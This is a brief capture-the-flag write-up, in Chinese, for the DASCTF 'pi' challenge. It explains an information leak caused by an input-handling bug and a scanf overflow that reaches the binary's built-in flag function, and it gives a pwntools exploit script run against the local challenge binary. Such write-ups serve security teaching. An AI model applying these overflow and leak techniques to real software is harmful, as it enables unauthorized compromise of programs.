 ```yaml
---
author: AngryCanary
tag: WriteUp
layout: post
---
```


# DASCTF-PI WriteUp

## 核心利用点

>信息泄露:  利用 程序输入函数的逻辑BUG 溢出 粘连 出有价值信息
>
>GetShell: 未GetShell
>
>GetFlag: 程序自带GetFlag。利用Scanf溢出触发

## 程序内容

![text1]({{ site.url }}/assets/pi/text1.png)

![text2]({{ site.url }}/assets/pi/text2.png)

![text3]({{ site.url }}/assets/pi/text3.png)

![text4]({{ site.url }}/assets/pi/text4.png)

![text5]({{ site.url }}/assets/pi/text5.png)

## Exploit

```python
from pwn import*

p = process("./pi")

context.arch = "amd64"

payload1 = "a" * 0xd0

p.sendlineafter("Username:",payload1)

p.recvuntil("a"*64)

radnum = int(p.recv(10),10)

p.sendlineafter("Passcode:",str(radnum)+p64(0)+p64(8)+p64(0x88)*20)

p.sendline("4632251120704552960") #Which OverFLow The Float.

p.interactive()
```

